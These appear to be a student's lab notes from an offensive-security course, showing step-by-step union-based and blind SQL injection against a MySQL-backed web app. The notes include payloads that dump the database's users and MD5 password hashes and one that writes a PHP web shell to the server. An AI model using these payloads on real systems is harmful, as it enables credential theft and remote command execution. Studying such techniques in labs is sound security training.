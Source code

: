 2. Attempt our first attack            
```
%' UNION SELECT database(), user(), @@version, null, null -- //
```
> (1) %' 來閉合 search parameter\
> (2) 配合 UNION SELECT\
> (3) dumps the current database name, the user, and the MySQL version in the first, second, and third columns, respectively, leaving the remaining two null.
            
![image](https://hackmd.io/_uploads/ryMzXUEmyx.png)
> `username` and the `DB version` are present on the last line, but the current database name is not.\
> `column 1` is typically reserved for the `ID field` consisting of an integer data type, **cannot return the string value**.
>> So... shifting all the enumerating functions
            
```
' UNION SELECT null, null, database(), user(), @@version  -- //
```
![image](https://hackmd.io/_uploads/BybRILV7Je.png)

3. Verify whether other tables are present in the current database
retrieve the columns table from the `information_schema database` belonging to the current database
```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
![image](https://hackmd.io/_uploads/SkinoLNXJl.png)
> the three columns contain the `table name`, the `column name`, and the `current database`, respectively
>> Also... new table named **"users"** that contains four columns, including one named password.

```
' UNION SELECT null, username, password, description, null FROM users -- //
```
![image](https://hackmd.io/_uploads/SkugTUV7ke.png)
> fetch the usernames and **MD5 hashes** of the entire users table

>[!Important]
> `' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //`

#### - Blind SQL Injections
database responses are never returned and behavior is inferred using either boolean- or time-based logic            
            
![image](https://hackmd.io/_uploads/HkXdOvNQyl.png)
> the application takes a user parameter as input
            
```
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```           
> enumerate the entire database for other usernames or even extend our SQL query to verify data in other tables
